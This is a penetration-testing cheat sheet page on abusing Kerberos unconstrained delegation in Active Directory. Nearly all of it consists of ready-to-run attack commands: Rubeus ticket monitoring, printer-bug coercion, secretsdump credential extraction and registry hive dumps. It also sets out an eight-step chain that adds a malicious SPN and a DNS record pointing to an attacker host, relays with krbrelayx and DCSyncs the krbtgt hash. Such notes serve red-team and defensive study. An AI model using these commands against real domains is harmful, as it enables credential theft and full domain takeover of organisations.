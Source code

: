 # Kerberos Unconstrained Delegation

* [https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)
* [https://ardent101.github.io/posts/kerberos_delegation/](https://ardent101.github.io/posts/kerberos_delegation/)

Enumerate:

```
PowerView3 > Get-DomainComputer -Unconstrained | select dnshostname,samaccountname,useraccountcontrol
```




## Monitor for TGTs

Coerce authentication from a DC while monitoring for TGTs in the background on the owned unconstrained delegation system:

```
Cmd > .\Rubeus.exe monitor /targetuser:DC01$ /interval:5 /nowrap /runfor:60 [/registry:SOFTWARE\MONITOR] [/consoleoutfile:C:\Windows\Temp\monitor.txt]
Cmd > .\SpoolSample.exe dc01.megacorp.local srv01.megacorp.local
```

Use [ticket_converter](https://github.com/eloypgz/ticket_converter) or [ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py) to convert the TGT from `.kirbi` to `.ccache` (usable with impacket):

```
$ python ticket_converter.py dc01.kirbi dc01.ccache
$ KRB5CCNAME=`pwd`/dc01.ccache ...
```

If output goes to the `/registry`:

```
PS > Get-ChildItem HKLM:\SOFTWARE\MONITOR\
PS > Get-ItemProperty HKLM:\SOFTWARE\MONITOR\DC01$@MEGACORP.LOCAL
PS > Get-Item HKLM:\SOFTWARE\MONITOR\ | Remove-Item -Recurse -Force
```




## "Relaying" Kerberos

* [https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)

{% embed url="https://snovvcrash.github.io/2021/05/21/calculating-kerberos-keys.html" caption="A Note on Calculating Kerberos Keys for AD Accounts" %}

{% file src="/.gitbook/assets/From Zero Credential to Full Domain Compromise (Haboob Team).pdf" %}



### Printer Bug + DCSync

Requirements:

* Owned computer account with unconstrained delegation enabled (SRV01).
* Printer bug on a domain controller (DC01).
* Permissions to add an SPN for the owned computer account and a new DNS record in AD.

1\. Grab owned computer account password to calculate its Kerberos AES key. This is done automatically when extracting the password remotely with `secretsdump.py`, or it will be done later by `krbrelayx.py` when providing it the password in hex from local `secretsdump.py` output:

```
# Remotely
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@SRV01.megacorp.local -ts
...
MEGACORP\SRV01$:aes256-cts-hmac-sha1-96:00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff

# Locally
Cmd > reg.exe save hklm\system system.hive
Cmd > reg.exe save hklm\security security.hive
$ secretsdump.py -system system.hive -security security.hive LOCAL
...
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:<PLAIN_PASSWORD_HEX>
```

2\. Add a malicious SPN for the owned computer account with unconstrained delegation:

```
# Check (no modifications)
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local -q DC01.megacorp.local

# Adding servicePrincipalName that doesn't match full hostname or samAccountName will fail
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local DC01.megacorp.local

# But modifying msDS-AdditionalDnsHostName will succeed
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local DC01.megacorp.local --additional
```

3\. Add a DNS record pointing to the attacker's host:

```
$ python dnstool.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -r evil.megacorp.local -d <ATTACKER_IP> --action add DC01.megacorp.local
```

4\. Check that the record was added successfully (\~ 3 minutes):

```
$ nslookup evil.megacorp.local <DC01_IP>
Server:		192.168.1.11
Address:	192.168.1.11#53

Name:	evil.megacorp.local
Address: 10.10.13.37
```

5\. Start `krbrelayx.py` providing AES key of the owned computer account or its plain password in hex with salt:

```
# In case secretsdump.py was used remotely
$ sudo python krbrelayx.py -aesKey 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff

# In case secretsdump.py was used locally
$ sudo python krbrelayx.py --krbhexpass <PLAIN_PASSWORD_HEX> --krbsalt MEGACORP.LOCALhostsrv01.megacorp.local
```

6\. Coerce the authentication to attacker's host from DC01 by triggering printer bug:

```
$ python printerbug.py megacorp.local/'SRV01$'@DC01.megacorp.local -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 evil.megacorp.local
```

7\. Export extracted TGT and perform DCSync to get krbtgt hash (or any other privileged account hash):

```
$ export KRB5CCNAME=`pwd`/'DC01$@MEGACORP.LOCAL_krbtgt@MEGACORP.LOCAL.ccache'
$ secretsdump.py DC01.megacorp.local -dc-ip <DC01_IP> -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```

8\. Cleanup. Delete SPN and DNS record:

```
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local -r DC01.megacorp.local --additional
$ python dnstool.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -r evil.megacorp.local -d <ATTACKER_IP> --action remove DC01.megacorp.local

# Check if the SPN was deleted successfully
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u 'SRV01$' --hash fc525c9683e8fe067095ba2ddc971889 -m computers --attrs servicePrincipalName | grep SRV01
```

Other scenarios:

* In [this](https://exploit.ph/user-constrained-delegation.html) blogpost it is described how to perform the attack by abusing a **service** (user) account with unconstrained delegation enabled.
* In [this](https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/) blogpost it is described how to perform the attack from Windows by extracting TGT with Inveigh.

